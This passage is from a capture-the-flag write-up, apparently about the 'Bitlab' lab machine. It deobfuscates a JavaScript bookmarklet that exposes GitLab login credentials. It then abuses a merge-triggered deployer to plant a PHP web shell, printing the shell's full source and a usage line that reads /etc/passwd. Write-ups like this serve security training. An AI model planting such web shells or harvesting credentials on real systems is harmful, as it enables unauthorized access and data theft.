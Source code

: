 We use an [online JavaScript Deobfuscator and Unpacker](https://lelinhtinh.github.io/de4js/)
to get the link "true" value:

    :::text
    javascript: (function () {
        % 20
        var % 20 _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
        document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = % 20 _0x4b18[3];
        document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = % 20 _0x4b18[5]; % 20
    })()

The credentials "clave" and "11des0081x" allow us to connect to the gitlab. We
have access to two projects owned by the "administrator" user: "Profile" and
"Deployer".

![Connected user](/media/2020.01/bitlab_4.png)

## Gitlab authenticated

The first project is the developer profile seen earlier. The second project is
the code use to deploy the first project using the following PHP syntax:

    :::PHP
    if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
        echo shell_exec('cd ../profile/; sudo git pull'),"\n";
    }

We can add a PHP simple reverse shell (the one in
`/usr/share/webshells/php/simple-backdoor.php` on Kali), make a pull request and
merge it from the gitlab interface.

    :::PHP
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

    <!--    http://michaeldaw.org   2006    -->

![Adding some PHP file](/media/2020.01/bitlab_6.png)

We then use the "Deployer" by accessing the `http://10.10.10.114/deployer/` URL
and we can access our webshell with the `http://10.10.10.114/profile/cmd2.php`
URL.
